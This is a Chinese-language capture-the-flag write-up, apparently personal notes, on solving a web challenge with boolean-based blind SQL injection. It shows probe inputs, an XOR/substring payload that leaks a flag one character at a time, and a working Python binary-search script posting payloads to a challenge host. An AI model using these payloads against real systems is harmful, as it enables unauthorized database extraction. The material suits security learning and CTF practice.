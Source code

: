 ![[Pasted image 20221108085601.png|500]]

![[Pasted image 20221108085629.png]]

```php
id=1
```
> Hello, glzjin wants a girlfriend.


```php
id=2
```
> Do you want to be my girlfriend?


```php
id=3
```
> Error Occured When Fetch Result.

```php
id=0
```
> Error Occured When Fetch Result.


```php
id=1; show databases#
```
> SQL Injection Checked.

```php
id=abc
```
> bool(false)

搜索得知这题是传说中的布尔盲注

通过上面的尝试可知，对`id`的运算结果为`1`或`2`时返回对应的字符串，为其他数字时返回错误，为非数字时返回false，因此可利用这一点逐个判断出flag的每一个字符
```sql
id=0^(ascii(substr((select(flag)from(flag)),/*index*/,1))>/*特定值*/)
```
若后面的比较为真，则`0^1`为`1`，返回`Hello, glzjin wants a girlfriend.`

否则`0^0`为`0`，报错

通过`python`脚本来二分（顺便学下`requests`怎么用QwQ）
```python
import requests

url = 'http://b405dc5e-a9fb-4e52-9d5d-f10a343e2bbd.node4.buuoj.cn:81/index.php'

for i in range(1, 100):
    a = 0
    b = 127
    while a < b:
        mid = (a + b) // 2
        r = requests.post(
            url,
            data={'id':'0^(ascii(substr((select(flag)from(flag)),{},1))>={})'.format(i, mid)})
        if r.content[-2:] == b't.':
            b = mid
        else:
            a = mid + 1

    print(chr(a-1),sep='',end='',flush=True)

```
![[Pasted image 20221108173940.png]]

#Web #SQL注入 #布尔盲注